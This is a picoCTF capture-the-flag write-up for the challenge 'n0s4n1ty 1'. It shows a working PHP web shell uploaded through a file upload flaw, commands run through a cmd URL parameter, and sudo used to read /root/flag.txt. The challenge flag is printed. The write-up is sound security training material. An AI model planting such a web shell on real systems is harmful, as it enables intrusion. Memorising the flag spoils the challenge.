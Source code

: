 # n0s4n1ty 1

## Step by step breakdown

**🔥 Exploited file upload vulnerability → PHP shell → Sudo privilege → Captured flag. No reverse shells needed this time.**

I first started off by trying to run a classic php shell through the file upload vulnerability

![SHELLupload](../media/Screenshots/file-up-n0s4n1ty.png)

### file contents

```
<?php
echo "<pre>";
system($_GET['cmd']);
echo "</pre>";
?>
```

***

I saved this code to a file and named it shell.php and uploaded it through the file upload functionality

![SHELLupload](../media/Screenshots/Shell-upload-output-n0s4n1ty.png)

afterwards I traversed to the URL where the file is stored. I executed a simple whoami command by appending '?cmd=whoami' to the URL

![whoamioutput](../media/Screenshots/whoami-output-n0s4n1ty.png)

With www-data I cannot access the /root directory, so I know I have to try some light privilege escalation techniques. I start by trying the sudo -l command which outputs:

![sudo-loutput](../media/Screenshots/sudo-l--output-n0s4n1ty.png)

which leads me to believe that I can simply access the root directory with sudo privileges without having to escalate to a root user, so I run

```
ls -la /root
```

to view all the files in root directory

![rootoutput](../media/Screenshots/ls-root-n0s4n1ty.png)

Then it's BBQ chicken from there

!['loki gif'](../media/gifs/Devious-ahh-loki.gif)

## Capturing the flag 🏁

```
sudo cat /root/flag.txt
```

![flagoutput](../media/Screenshots/flag-n0s4n1ty.png)

```
picoCTF{wh47_c4n_u_d0_wPHP_8ca28f94}
```

Flag captured. Game over. 🎯

!['loki gif'](../media/gifs/tom-hiddleston-loki-wink.gif)

## Lessons learned

Don't waste time trying to launch reverse shells on rooms like this cuz they're hosted on AWS and more than likely won't let you establish a connection and you'll spend twenty minutes trying to figure out what's wrong only to find out that you should have just stuck with the webshell instead of trying to be a ghetto red team operator

!['loki gif'](../media/gifs/Frustrated-loki.gif)
